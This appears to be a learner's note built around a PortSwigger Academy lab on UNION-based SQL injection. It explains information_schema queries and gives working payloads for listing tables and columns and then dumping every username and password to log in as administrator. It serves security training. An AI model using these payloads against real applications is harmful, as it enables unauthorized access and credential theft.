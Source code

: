


Most database types (except Oracle) have a set of views called the information schema. This provides information about the database.

For example, you can query `information_schema.tables` to list the tables in the database:

`SELECT * FROM information_schema.tables`

This returns output like the following:

`TABLE_CATALOG TABLE_SCHEMA TABLE_NAME TABLE_TYPE ===================================================== MyDatabase dbo Products BASE TABLE MyDatabase dbo Users BASE TABLE MyDatabase dbo Feedback BASE TABLE`

This output indicates that there are three tables, called `Products`, `Users`, and `Feedback`.

You can then query `information_schema.columns` to list the columns in individual tables:

`SELECT * FROM information_schema.columns WHERE table_name = 'Users'`

This returns output like the following:

`TABLE_CATALOG TABLE_SCHEMA TABLE_NAME COLUMN_NAME DATA_TYPE ================================================================= MyDatabase dbo Users UserId int MyDatabase dbo Users Username varchar MyDatabase dbo Users Password varchar`

This output shows the columns in the specified table and the data type of each column.



## Lab: SQL injection attack, listing the database contents on non-Oracle databases

PRACTITIONER

LABSolved

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the `administrator` user.

 ####  Hint

[](https://portswigger.net/web-security/sql-injection/cheat-sheet)

[ACCESS THE LAB](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-examining-the-database-in-sql-injection-attacks/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle#)

 ####  Solution

1. Use Burp Suite to intercept and modify the request that sets the product category filter.
2. Determine the number of columns that are being returned by the query and which columns contain text data. Verify that the query is returning two columns, both of which contain text, using a payload like the following in the `category` parameter:
    
    `'+UNION+SELECT+'abc','def'--`
3. Use the following payload to retrieve the list of tables in the database:
    
    `'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--`
4. Find the name of the table containing user credentials.
5. Use the following payload (replacing the table name) to retrieve the details of the columns in the table:
    
    `'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_abcdef'--`
6. Find the names of the columns containing usernames and passwords.
7. Use the following payload (replacing the table and column names) to retrieve the usernames and passwords for all users:
    
    `'+UNION+SELECT+username_abcdef,+password_abcdef+FROM+users_abcdef--`
8. Find the password for the `administrator` user, and use it to log in.


----
----

note


![[../../images/Pasted image 20231024221107.png]]




# to list the tables
select * from information_schema.tables

 This returns output like the following:
TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  TABLE_TYPE
=====================================================
MyDatabase     dbo           Products    BASE TABLE
MyDatabase     dbo           Users       BASE TABLE
MyDatabase     dbo           Feedback    BASE TABLE

This output indicates that there are three tables, called Products, Users, and Feedback. 

`in payload format`

'union select table_name , NULL from information_schema.tables --

`this upper commands displays all the table name , now we have to select any one of the table which seems fruitful`

####lets say table selected is 'users_bondfq'


----

now we have to find the columns in the column

payload format

`union select column_name , NULL form information_schema.columns where table_name = 'users_bondfq' --`


-----

now we have to find the select fruitful column

payload format
`union select column1, column2 from table_name --`



